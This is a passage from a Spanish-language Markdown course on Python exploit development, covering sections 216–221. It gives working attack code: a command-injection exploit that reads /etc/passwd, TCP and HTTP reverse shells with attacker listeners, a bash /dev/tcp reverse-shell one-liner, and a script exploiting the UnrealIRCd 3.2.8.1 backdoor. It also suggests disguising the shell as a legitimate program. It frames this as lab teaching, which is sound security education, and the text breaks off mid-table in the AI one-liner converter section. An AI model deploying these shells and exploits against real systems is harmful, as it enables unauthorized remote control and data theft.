



| **Inicio**         | **atrás 4**                                                     | **Siguiente 6**                                                              |
| ------------------ | --------------------------------------------------------------- | ---------------------------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./4_4_Analisis_de_vulnerabilidades_en_Hosts_con_Python.md) | [⏩](./4_6_Python_Hacking_y_Explotacion_de_redes_informaticas_con_Python.md) |

---

## **Índice**

| Temario                                                                                                                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------- |
| [216. Desarrollo de exploits con Python: Introducción](#216-desarrollo-de-exploits-con-python-introducción)                                 |
| [217. Desarrollo de exploits con Python: Ejecución remota de comandos](#217-desarrollo-de-exploits-con-python-ejecución-remota-de-comandos) |
| [218. Explota la vulnerabilidad de UnrealIRCd con Python](#218-explota-la-vulnerabilidad-de-unrealircd-con-python)                          |
| [219. Shell reversa TCP con Python](#219-shell-reversa-tcp-con-python)                                                                      |
| [220. Shell reversa HTTP con Python](#220-shell-reversa-http-con-python)                                                                    |
| [221. Convertidor One-liner con Inteligencia Artificial (IA)](#221-convertidor-one-liner-con-inteligencia-artificial-ia)                    |
| [222. Shell reversa cifrada (HTTPs) en Python](#222-shell-reversa-cifrada-https-en-python)                                                  |
| [223. Explota la vulnerabilidad UrealIRCd con una Shell cifrada](#223-explota-la-vulnerabilidad-urealircd-con-una-shell-cifrada)            |
| [224. Transferencia de ficheros con Python: HTTPServer](#224-transferencia-de-ficheros-con-python-httpserver)                               |
| [225. Explotación del Kernel y elevación de privilegios con Python](#225-explotación-del-kernel-y-elevación-de-privilegios-con-python)      |
| [226. PyMetasploit: Metasploit con Python](#226-pymetasploit-metasploit-con-python)                                                         |
| [227. PyMetasploit: Enumeración y filtrado de módulos y exploits](#227-pymetasploit-enumeración-y-filtrado-de-módulos-y-exploits)           |
| [228. PyMetasploit: Configuración y ejecución de exploits](#228-pymetasploit-configuración-y-ejecución-de-exploits)                         |
| [229. PyMetasploit: Manejo de sesiones](#229-pymetasploit-manejo-de-sesiones)                                                               |
| [230. Keylogger con Python](#230-keylogger-con-python)                                                                                      |
| [231. Compilar programas en Python: Pyinstaller](#231-compilar-programas-en-python-pyinstaller)                                             |

---

# **Python Hacking y Explotacion de Vulnerabilidades en Hosts con Python**

## **216. Desarrollo de exploits con Python: Introducción**

### 🔐 ¿Qué es el desarrollo de exploits?

#### 🧠 En términos simples:

Un **exploit** es un **programa o fragmento de código** que aprovecha una **vulnerabilidad** (error o debilidad) en un sistema, software o servicio para conseguir algo **no autorizado**, como:

- Ejecutar comandos en el servidor
- Escalar privilegios (pasar de usuario normal a administrador)
- Acceder a datos sensibles
- Detener el funcionamiento del sistema

---

### 🐍 ¿Por qué usar Python para desarrollar exploits?

Python es muy usado en ciberseguridad por:

✅ Su **sintaxis simple**

✅ Gran cantidad de **librerías para redes y seguridad**

✅ Compatible con muchas herramientas de pentesting

✅ Ideal para **automatizar ataques** o escribir pruebas de concepto (PoC)

---

### 🛠️ ¿Qué necesito para comenzar?

#### ✅ Requisitos previos:

- Conocimientos básicos de Python
- Conocimientos básicos de redes (IP, puertos, sockets)
- Entorno Linux (preferible Kali Linux o Parrot OS)

---

### 💻 PASO A PASO: Instalación del entorno

#### ✅ 1. Instalar Python (si no lo tienes)

En Linux ya viene instalado. Verifica con:

```bash
python3 --version
```

Si no está instalado:

```bash
sudo apt update
sudo apt install python3 python3-pip
```

---

#### ✅ 2. Crear un entorno de trabajo

Crea una carpeta para tus scripts:

```bash
mkdir exploits-python
cd exploits-python
```

Crea un entorno virtual (opcional pero recomendado):

```bash
python3 -m venv venv
source venv/bin/activate
```

---

#### ✅ 3. Instalar herramientas/librerías útiles

```bash
pip install requests
pip install pwntools
pip install paramiko
pip install scapy
```

##### Explicación de cada una:

- `requests`: para enviar peticiones HTTP
- `pwntools`: para explotar binarios, crear payloads, etc.
- `paramiko`: para explotar SSH
- `scapy`: para manipular paquetes de red

---

### 🚨 EJEMPLO 1: Exploit básico en Python – Petición maliciosa

**Objetivo:** Un servidor web vulnerable a inyección de comandos a través de la URL.

#### Vulnerabilidad:

La URL permite ejecutar comandos sin validar la entrada del usuario:

```http
http://victima.com/vuln.php?cmd=ls
```

#### Exploit en Python:

```python
import requests

# URL del servidor vulnerable
url = "http://victima.com/vuln.php"

# Comando que queremos ejecutar en el servidor
cmd = "cat /etc/passwd"

# Enviar el comando como parámetro
params = {"cmd": cmd}

# Realizar la solicitud
response = requests.get(url, params=params)

# Mostrar el resultado
print(response.text)
```

Este script hace que el servidor ejecute `cat /etc/passwd` y devuelve su contenido.

---

### 🧪 EJEMPLO 2: Conexión reversa con socket

**Objetivo:** Que la víctima se conecte de vuelta al atacante y se le dé una shell.

#### Código en la máquina atacante (listener):

```python
import socket
import subprocess

IP = "0.0.0.0"
PORT = 4444

s = socket.socket()
s.bind((IP, PORT))
s.listen(1)

print(f"[+] Esperando conexión en {PORT}...")
conn, addr = s.accept()
print(f"[+] Conexión recibida de {addr}")

while True:
    cmd = input("$ ")
    conn.send(cmd.encode())
    if cmd.lower() == "exit":
        break
    output = conn.recv(4096).decode()
    print(output)

conn.close()
```

##### Código que ejecuta la víctima (reverse shell):

```python
import socket
import subprocess

s = socket.socket()
s.connect(("IP_DEL_ATACANTE", 4444))

while True:
    cmd = s.recv(1024).decode()
    if cmd.lower() == "exit":
        break
    output = subprocess.getoutput(cmd)
    s.send(output.encode())

s.close()
```

---

### ⚠️ IMPORTANTE

Este tipo de scripts deben usarse **solo con fines educativos** o en **entornos de laboratorio controlado** como:

- Máquinas virtuales con vulnerabilidades (ej. Metasploitable)
- Plataformas de práctica como [TryHackMe](https://tryhackme.com), [Hack The Box](https://www.hackthebox.com)

**Jamás pruebes esto en servidores reales sin permiso.**

---

### 🧰 ¿Qué puedes aprender después?

- Cómo funciona el protocolo HTTP, TCP, UDP
- Técnicas de **fuzzing** para encontrar vulnerabilidades
- Desbordamiento de búfer (buffer overflow)
- Explotación de binarios con `pwntools` y GDB
- Evasión de antivirus
- Ingeniería inversa

---

### 🎓 Recursos recomendados

1. **Libro**: "Violent Python" – Tiene muchos ejemplos prácticos
2. **Curso**: "Python for Pentesters" en Udemy o YouTube
3. **Docs**:

   - [https://docs.pwntools.com/en/latest/](https://docs.pwntools.com/en/latest/)
   - [https://scapy.readthedocs.io/en/latest/](https://scapy.readthedocs.io/en/latest/)

---

### ✅ Resumen

| Tema                | Explicación corta                                |
| ------------------- | ------------------------------------------------ |
| ¿Qué es un exploit? | Código que aprovecha un fallo para tomar control |
| ¿Por qué Python?    | Sencillo, potente, muchas librerías de seguridad |
| Herramientas clave  | requests, pwntools, scapy, paramiko              |
| Primer ejemplo      | Enviar comandos a un servidor vulnerable via URL |
| Segundo ejemplo     | Reverse shell usando sockets                     |
| Dónde practicar     | TryHackMe, Hack The Box, Máquinas virtuales      |

---

[🔼](#índice)

---

## **217. Desarrollo de exploits con Python: Ejecución remota de comandos**

### 🔍 ¿Qué es la Ejecución Remota de Comandos (RCE)?

#### 🧠 Definición:

La **Ejecución Remota de Comandos (Remote Command Execution - RCE)** es una vulnerabilidad que permite a un atacante **ejecutar comandos arbitrarios** en un servidor o sistema **remoto**, normalmente a través de una aplicación web vulnerable.

#### ⚠️ ¿Qué puede hacer un atacante con RCE?

- Ver archivos sensibles (como `/etc/passwd`)
- Descargar malware
- Escalar privilegios
- Crear shells reversas
- Control total del servidor

---

### 💡 ¿Cómo se da una RCE?

La aplicación web:

- Recibe comandos del usuario
- Los ejecuta en el sistema sin **sanitizar** ni validar correctamente

Ejemplo de una URL vulnerable:

```http
http://victima.com/ejecutar.php?cmd=ls
```

---

### 🐍 ¿Por qué usar Python para explotar RCE?

- Automatiza ataques
- Permite interactuar con el servidor fácilmente (requests, sockets)
- Facilita payloads complejos (reverse shell, exfiltración de datos)

---

### 🛠️ Preparación del entorno

#### 🔧 1. Requisitos previos:

- Python 3 instalado
- Kali Linux, Parrot OS o cualquier Linux
- Biblioteca `requests` instalada

```bash
pip install requests
```

---

#### 🚧 Escenario Simulado

Supongamos que tienes acceso a una aplicación web con esta URL:

```
http://10.0.0.5/vuln.php?cmd=whoami
```

#### Lo que pasa detrás:

- El servidor toma el valor de `cmd` y lo ejecuta directamente en la terminal del sistema.
- Si no filtra la entrada, podemos enviar cualquier comando de Linux.

---

### 💻 Paso a paso: Crear un exploit en Python

#### 🐍 Código del exploit básico (GET)

```python
import requests

# URL del servidor vulnerable
url = "http://10.0.0.5/vuln.php"

while True:
    cmd = input("Comando> ")
    if cmd.lower() in ["exit", "quit"]:
        break

    # Enviamos el comando como parámetro
    try:
        res = requests.get(url, params={"cmd": cmd}, timeout=5)
        print(res.text)
    except requests.exceptions.RequestException:
        print("[!] Error al conectar con el objetivo")
```

#### 📌 ¿Qué hace este script?

1. Pide un comando al usuario
2. Lo envía como parámetro `cmd` a la URL
3. Imprime la respuesta del servidor (output del comando)

---

### 💣 Ejemplo de comandos útiles

| Comando               | Descripción                 |
| --------------------- | --------------------------- |
| `whoami`              | Muestra el usuario actual   |
| `ls -la`              | Lista archivos              |
| `cat /etc/passwd`     | Ver archivo de usuarios     |
| `curl http://IP:PORT` | Contacta tu equipo atacante |

---

### 🐚 Reverse Shell (Payload para obtener acceso total)

#### 👾 Objetivo:

Lograr que el servidor se conecte de vuelta a **tu máquina** y te dé una **shell interactiva**.

#### 💻 Tu máquina (atacante)

```bash
nc -lvnp 4444
```

#### 👨‍💻 Enviar este comando a través del exploit:

```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

> Reemplaza `10.0.0.1` con tu IP local.

---

### 🛡️ ¿Cómo prevenir RCE?

(Solo como nota educativa)

- Nunca uses `eval()`, `exec()` o `system()` con datos del usuario
- Sanitiza entradas (filtros de comandos, expresiones regulares)
- Usa listas blancas de comandos permitidos
- Configura correctamente permisos del sistema

---

### 🧪 Laboratorio práctico con DVWA (opcional)

Puedes usar [DVWA](https://github.com/digininja/DVWA) (Damn Vulnerable Web Application) para practicar en local.

Pasos básicos:

1. Instala XAMPP o Docker
2. Clona el repositorio de DVWA
3. Configura el archivo `config.inc.php`
4. Abre en tu navegador `http://localhost/DVWA`
5. Accede a la sección **Command Injection**

---

### ✅ RESUMEN

| Concepto      | Explicación breve                         |
| ------------- | ----------------------------------------- |
| RCE           | Ejecutar comandos en un servidor remoto   |
| Python        | Ideal para automatizar el ataque          |
| Exploit       | Enviar comandos por URL usando `requests` |
| Reverse Shell | Tomar control remoto del sistema          |
| Prevención    | Sanitizar entradas, limitar permisos      |

---

[🔼](#índice)

---

## **218. Explota la vulnerabilidad de UnrealIRCd con Python**

### 🎯 ¿Qué es UnrealIRCd?

UnrealIRCd es un servidor de IRC (Internet Relay Chat), que permite crear y administrar canales de chat. En versiones antiguas, particularmente la **3.2.8.1**, hubo una vulnerabilidad crítica.

---

### 🔥 ¿Qué vulnerabilidad tenía UnrealIRCd 3.2.8.1?

La versión **UnrealIRCd 3.2.8.1** descargada desde un **mirror comprometido** en 2009 contenía **una puerta trasera (backdoor)** incrustada en el binario.

> Esta backdoor permitía ejecutar comandos remotos en el servidor usando una conexión TCP en el puerto IRC (por defecto 6667), enviando comandos especiales como si fueran parte del protocolo IRC.

---

### 💣 ¿Cómo funciona la explotación?

Un atacante puede conectarse al servidor y enviar un comando IRC especial como:

```
AB; comando_a_ejecutar
```

Esto ejecuta el `comando_a_ejecutar` en el sistema del servidor con permisos del usuario que corre el UnrealIRCd.

Ejemplo:

```
AB;uname -a
```

> Este comando ejecutará `uname -a` y mostrará la información del sistema operativo del servidor remoto.

---

### 🧪 Entorno de prueba (Legal y Ético)

Si lo haces con fines educativos, te recomiendo crear un laboratorio con:

1. **Máquina vulnerable**:

   - Puedes usar **Metasploitable 2**, que ya trae UnrealIRCd vulnerable instalado.
   - O montar tu propia VM con Linux e instalar UnrealIRCd 3.2.8.1 (desde el paquete comprometido original — ¡solo en entorno controlado!).

2. **Atacante (Kali Linux o similar)**:

   - Desde Kali puedes correr el exploit en Python o usar Metasploit.

---

### 📜 Código Python para explotar la vulnerabilidad

Este es un ejemplo **didáctico** de cómo funcionaría un script simple en Python para explotar esta puerta trasera:

```python
import socket
import sys

def exploit_unrealircd(target_ip, target_port, command):
    payload = f"AB;{command}\n"

    try:
        print(f"[+] Conectando a {target_ip}:{target_port}...")
        s = socket.socket()
        s.connect((target_ip, target_port))
        print("[+] Conectado. Enviando payload...")
        s.send(payload.encode())
        print("[+] Payload enviado.")
        s.close()
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print(f"Uso: {sys.argv[0]} <IP> <PUERTO> <COMANDO>")
        print(f"Ejemplo: {sys.argv[0]} 192.168.1.10 6667 'id'")
        sys.exit(1)

    ip = sys.argv[1]
    port = int(sys.argv[2])
    cmd = sys.argv[3]

    exploit_unrealircd(ip, port, cmd)
```

#### ✅ Ejemplo de uso

```bash
python3 exploit_unrealircd.py 192.168.56.101 6667 "id"
```

Esto enviará el comando `id` al servidor IRC y, si es vulnerable, lo ejecutará.

---

### 🔧 Cómo instalar UnrealIRCd 3.2.8.1 en entorno de prueba

⚠️ Repetimos: ¡Solo en entornos legales!

1. Crear una VM con Ubuntu 8 o Debian antiguo.
2. Descargar el binario infectado:

```bash
wget http://downloads.sourceforge.net/project/unrealircd/Unreal3.2/unreal3.2.8.1.tar.gz
tar -zxvf unreal3.2.8.1.tar.gz
cd Unreal3.2.8.1
./Config
make
```

3. Correr el servidor:

```bash
./unreal start
```

Esto lo iniciará en el puerto 6667.

---

### 🧷 Medidas de prevención

- No usar software desactualizado.
- Verificar los **hashes** de archivos descargados.
- Usar IDS/IPS y monitoreo de red.
- Limitar acceso remoto al servidor IRC.

---

### ✅ Recomendación final

Si estás aprendiendo sobre seguridad informática, te recomiendo:

- [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
- [TryHackMe - Intro to Exploits](https://tryhackme.com)
- [Hack The Box](https://hackthebox.com)

---

[🔼](#índice)

---

## **219. Shell reversa TCP con Python**

### ✅ ¿Qué es una reverse shell?

Una **reverse shell** es una técnica en la que una **máquina víctima (cliente)** establece una conexión hacia una **máquina atacante (servidor)** para que esta última pueda ejecutar comandos de forma remota.

---

#### 🎯 ¿Para qué sirve?

Sirve para obtener **acceso remoto** a una máquina, por ejemplo, después de haber explotado una vulnerabilidad. Es un paso común en **pentesting** o pruebas de intrusión.

---

### 🧠 ¿Cómo funciona?

1. **La máquina atacante (escucha)** con un servidor TCP.
2. **La víctima se conecta** a la máquina atacante y redirige su entrada/salida de comandos.
3. El atacante puede ejecutar comandos en la máquina víctima como si estuviera en su terminal.

---

### 🧪 Entorno de pruebas (seguro y legal)

#### Puedes usar:

| Máquina       | Rol      | Recomendación                |
| ------------- | -------- | ---------------------------- |
| Kali Linux    | Atacante | Kali en VirtualBox o VMware  |
| Ubuntu/Debian | Víctima  | Máquina virtual sin firewall |

💡 Ambas máquinas deben estar en **la misma red local o virtual** (por ejemplo, en modo **red interna** de VirtualBox).

---

### 🐍 Código Python: Reverse Shell

#### 🔁 Cliente (Víctima) - Se conecta al atacante

```python
# reverse_shell_client.py
import socket
import subprocess
import os

def reverse_shell():
    host = '192.168.1.10'  # IP del atacante
    port = 4444            # Puerto de escucha

    s = socket.socket()
    try:
        s.connect((host, port))
        s.send(b'[+] Conectado a la shell\n')
        while True:
            comando = s.recv(1024).decode()
            if comando.lower() == 'exit':
                break
            if comando.startswith('cd '):
                try:
                    os.chdir(comando[3:].strip())
                    s.send(b'Directorio cambiado\n')
                except Exception as e:
                    s.send(f'Error: {str(e)}\n'.encode())
            else:
                resultado = subprocess.getoutput(comando)
                s.send((resultado + '\n').encode())
        s.close()
    except Exception as e:
        print(f"[!] Error al conectar: {e}")

if __name__ == '__main__':
    reverse_shell()
```

---

#### 🔊 Servidor (Atacante) - Escucha y controla

```python
# listener_server.py
import socket

def servidor():
    host = '0.0.0.0'  # Escuchar en todas las interfaces
    port = 4444

    s = socket.socket()
    s.bind((host, port))
    s.listen(1)
    print(f"[+] Escuchando en el puerto {port}...")

    cliente, direccion = s.accept()
    print(f"[+] Conexión desde {direccion}")

    while True:
        comando = input("Shell> ")
        if comando.strip() == '':
            continue
        cliente.send(comando.encode())
        if comando.lower() == 'exit':
            break
        resultado = cliente.recv(4096).decode()
        print(resultado)

    cliente.close()
    s.close()

if __name__ == '__main__':
    servidor()
```

---

### 📦 ¿Cómo instalar y correr?

#### Paso 1: Prepara las máquinas

1. **Máquina Atacante (Kali o cualquier Linux):**

   - IP: `192.168.1.10` (ajústalo según tu red)
   - Guarda `listener_server.py`
   - Ejecuta:

     ```bash
     python3 listener_server.py
     ```

2. **Máquina Víctima (Ubuntu o Windows):**

   - Guarda `reverse_shell_client.py`
   - Modifica `host` en el script con la IP del atacante.
   - Ejecuta:

     ```bash
     python3 reverse_shell_client.py
     ```

📌 **Importante:** Asegúrate de que no haya firewalls bloqueando el puerto 4444.

---

### 🎬 Ejemplo de ejecución

#### 1. En la máquina atacante:

```bash
$ python3 listener_server.py
[+] Escuchando en el puerto 4444...
[+] Conexión desde ('192.168.1.15', 52766)
Shell> whoami
victima
Shell> uname -a
Linux ubuntu 5.15.0-91-generic ...
```

#### 2. En la máquina víctima:

```bash
# No muestra nada, queda en espera mientras el atacante controla
```

---

### ⚠️ Seguridad y Legalidad

- **Nunca ejecutes esto en redes públicas o sin permiso.**
- Solo en laboratorios controlados y para propósitos de aprendizaje.
- ¡No lo uses contra sistemas que no te pertenecen!

---

### 🚀 Nivel avanzado (opcional)

Puedes mejorar esto:

- Enviar resultados en chunks grandes (usando bucle `recv()`).
- Encriptar la comunicación (con `ssl`).
- Usar `threading` para múltiples clientes.
- Camuflar el script como programa legítimo (para estudios de malware).

---

[🔼](#índice)

---

## **220. Shell reversa HTTP con Python**



### 🎯 ¿Qué es una reverse shell HTTP?

Una **reverse shell HTTP** es una variante de la shell reversa clásica, pero que se comunica a través del **protocolo HTTP** en lugar de usar una conexión TCP directa.

---

#### 🔍 ¿Por qué usar HTTP?

- Muchas redes permiten salir al exterior por el puerto **80 o 443 (HTTP/HTTPS)**.
- Es más fácil evadir firewalls o IDS, porque **parece tráfico web normal**.
- Puedes ocultar el tráfico como si fuera una petición web legítima.

---

### 🧪 Entorno de laboratorio (seguro y legal)

| Máquina                  | Rol                     | Descripción                                |
| ------------------------ | ----------------------- | ------------------------------------------ |
| Kali Linux (atacante)    | Servidor web + listener | Recibe las peticiones HTTP                 |
| Ubuntu/Windows (víctima) | Cliente                 | Ejecuta el script y se conecta al servidor |

✅ Ambas máquinas deben estar en la misma red (real o virtual).

---

### 🧠 ¿Cómo funciona una reverse shell HTTP?

1. **La víctima (cliente)** hace una petición HTTP al servidor atacante.
2. El servidor responde con un **comando a ejecutar**.
3. La víctima ejecuta ese comando y **envía la respuesta como POST**.
4. El servidor recibe la respuesta y espera otra petición.

Este ciclo se repite continuamente como si fuera un chat entre atacante y víctima, todo por HTTP.

---

### ⚙️ Implementación

Vamos a crear:

1. Un **servidor HTTP** (en la máquina atacante).
2. Un **cliente reverse shell HTTP** (en la máquina víctima).

---

#### 🖥️ 1. Servidor HTTP (atacante)

```python
# http_server.py
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

comando_a_enviar = "whoami"

class ShellHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(comando_a_enviar.encode())

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print("[+] Respuesta de la víctima:")
        print(post_data.decode())
        self.send_response(200)
        self.end_headers()

def run_server():
    server_address = ('0.0.0.0', 8000)  # Cambia puerto si es necesario
    httpd = HTTPServer(server_address, ShellHandler)
    print("[+] Servidor HTTP escuchando en el puerto 8000...")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

🔁 Puedes editar la variable `comando_a_enviar` para enviar otros comandos.

---

#### 🐍 2. Cliente HTTP (víctima)

```python
# http_client.py
import requests
import subprocess
import time

server_url = "http://192.168.1.10:8000"  # IP del atacante

while True:
    try:
        r = requests.get(server_url)
        comando = r.text.strip()
        if comando.lower() == "exit":
            break

        resultado = subprocess.getoutput(comando)
        print(f"[+] Resultado de '{comando}':\n{resultado}")

        requests.post(server_url, data=resultado.encode())

    except Exception as e:
        print(f"[!] Error: {e}")

    time.sleep(5)
```

✅ Este script:

- Se conecta al servidor cada 5 segundos.
- Recibe un comando.
- Lo ejecuta.
- Devuelve el resultado al servidor.

---

### 🔧 Instalación y prueba paso a paso

#### En la máquina **atacante** (servidor)

1. Guarda `http_server.py`
2. Instala dependencias si no tienes:

   ```bash
   sudo apt install python3
   ```

3. Ejecuta:

   ```bash
   python3 http_server.py
   ```

4. Edita el script y cambia `comando_a_enviar` a comandos como `"ls"`, `"id"`, `"uname -a"`, etc.

---

#### En la máquina **víctima** (cliente)

1. Guarda `http_client.py`
2. Asegúrate de tener:

   ```bash
   pip3 install requests
   ```

3. Edita la IP del atacante en `server_url`
4. Ejecuta:

   ```bash
   python3 http_client.py
   ```

---

#### Ejemplo de resultado

##### Servidor (atacante):

```
[+] Servidor HTTP escuchando en el puerto 8000...
[+] Respuesta de la víctima:
kali
```

##### Cliente (víctima):

```
[+] Resultado de 'whoami':
kali
```

---

#### ⚠️ Seguridad y legalidad

- Esto es solo para **laboratorios de estudio**.
- Nunca lo uses en redes externas o máquinas sin permiso.
- Puedes practicar en plataformas como **TryHackMe**, **HackTheBox**, o tu propio laboratorio con **VirtualBox o VMware**.

---

[🔼](#índice)

---

## **221. Convertidor One-liner con Inteligencia Artificial (IA)**

### 🧠 ¿Qué es un “convertidor one-liner con IA”?

Un **one-liner** es una instrucción o script de **una sola línea** que realiza una tarea útil en la terminal o en un lenguaje como Python, Bash o PowerShell.

Un **convertidor con IA** interpreta un one-liner (ej: en Bash) y lo convierte en otra cosa:

- ✅ Traducción de Bash → Python
- ✅ Traducción de Python → PowerShell
- ✅ Explicación en lenguaje natural de qué hace el comando
- ✅ Generación de un one-liner a partir de una descripción

---

### 🎯 ¿Para qué sirve?

Esto es muy útil en:

| Uso común      | Ejemplo                                          |
| -------------- | ------------------------------------------------ |
| Pentesting     | Convertir payloads de Bash a Python o PowerShell |
| Automatización | Crear tareas de red, archivos, procesos          |
| Estudio        | Aprender shell scripting o debugging             |
| Traducción     | Explicar qué hace un comando desconocido         |

---

### 🧪 Ejemplo básico

#### 🔹 One-liner en Bash:

```bash
find / -name "passwd" 2>/dev/null
```

✅ Este comando busca el archivo `passwd` en todo el sistema.

### 🔄 IA lo convierte a Python:

```python
import os

for root, dirs, files in os.walk('/'):
    if 'passwd' in files:
        print(os.path.join(root, 'passwd'))
```

---

### 🤖 ¿Cómo hacer un convertidor one-liner con IA?

Puedes construirlo con estas herramientas:

#### 🛠️ Requisitos

1. Python 3.x
2. API de una IA como OpenAI (usaremos GPT)
3. Interfaz por terminal o web (opcional)
4. Algunas bibliotecas:

   - `openai`
   - `argparse` o `flask` (según el enfoque)

---

### 🧱 Paso a paso: crear un convertidor one-liner con IA (modo terminal)

#### 📦 1. Instalar dependencias

```bash
pip install openai
```

#### 🔑 2. Obtener API Key

- Ve a [https://platform.openai.com](https://platform.openai.com)
- Crea una cuenta y consigue una API key
- Guárdala como variable de entorno:

```bash
export OPENAI_API_KEY="tu_api_key_aquí"
```

---

#### 🧾 3. Script completo en Python

```python
# one_liner_converter.py
import openai
import os
import argparse

openai.api_key = os.getenv("OPENAI_API_KEY")

def convertir_one_liner(one_liner, modo):
    prompt = ""

    if modo == "explicar":
        prompt = f"Explica este comando en lenguaje simple:\n{one_liner}"
    elif modo == "bash2python":
        prompt = f"Convierte este comando bash a Python:\n{one_liner}"
    elif modo == "python2bash":
        prompt = f"Convierte este código Python a un one-liner en bash:\n{one_liner}"
    else:
        print("Modo no soportado.")
        return

    response = openai.ChatCompletion.create(
        model="gpt-3.5-turbo",
        messages=[
            {"role": "user", "content": prompt}
        ],
        temperature=0.2
    )

    resultado = response['choices'][0]['message']['content']
    print("\n🔄 Resultado:")
    print(resultado)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Convertidor de one-liners con IA")
    parser.add_argument("modo", help="Modo: explicar / bash2python / python2bash")
    parser.add_argument("comando", help="Comando o código a convertir", nargs='+')

    args = parser.parse_args()
    comando_texto = " ".join(args.comando)
    convertir_one_liner(comando_texto, args.modo)
```

---

#### ✅ 4. Cómo usarlo

##### 🔍 Para explicar:

```bash
python3 one_liner_converter.py explicar 'ls -la /home'
```

##### 🔁 Para convertir Bash a Python:

```bash
python3 one_liner_converter.py bash2python 'cat /etc/passwd | grep root'
```

##### 🔁 Para convertir Python a Bash:

```bash
python3 one_liner_converter.py python2bash 'print(open("/etc/passwd").read())'
```

---

### 🧪 ¿Cómo probarlo en tu laboratorio?

#### Entorno recomendado:

- ✅ Kali Linux o Ubuntu
- ✅ Python 3 instalado
- ✅ Acceso a Internet (para conectarse a OpenAI)
- ✅ Cuenta en OpenAI con API Key válida

---

### 🚀 Extensión: Convertidor One-liner con Interfaz Web (Flask)

Si quieres ir más allá, puedes crear una app web con Flask:

```bash
pip install flask
```

```python
# app.py
from flask import Flask, request, render_template_string
import openai
import os

openai.api_key = os.getenv("OPENAI_API_KEY")
app = Flask(__name__)

HTML = """
<form method="post">
    <input type="text" name="cmd" placeholder="Escribe el one-liner" style="width:300px;">
    <select name="modo">
        <option value="explicar">Explicar</option>
        <option value="bash2python">Bash a Python</option>
        <option value="python2bash">Python a Bash</option>
    </select>
    <button type="submit">Convertir</button>
</form>
<pre>{{ resultado }}</pre>
"""

@app.route("/", methods=["GET", "POST"])
def index():
    resultado = ""
    if request.method == "POST":
        cmd = request.form["cmd"]
        modo = request.form["modo"]
        prompt = f"{modo}: {cmd}"
        if modo == "explicar":
            prompt = f"Explica este comando:\n{cmd}"
        elif modo == "bash2python":
            prompt = f"Convierte de bash a python:\n{cmd}"
        elif modo == "python2bash":
            prompt = f"Convierte de python a bash:\n{cmd}"

        response = openai.ChatCompletion.create(
            model="gpt-3.5-turbo",
            messages=[{"role": "user", "content": prompt}]
        )
        resultado = response['choices'][0]['message']['content']

    return render_template_string(HTML, resultado=resultado)

app.run(debug=True)
```

Abres en tu navegador:
👉 [http://127.0.0.1:5000](http://127.0.0.1:5000)

---

### ✅ ¿Qué puedes lograr?

| Objetivo                    | Resultado                               |
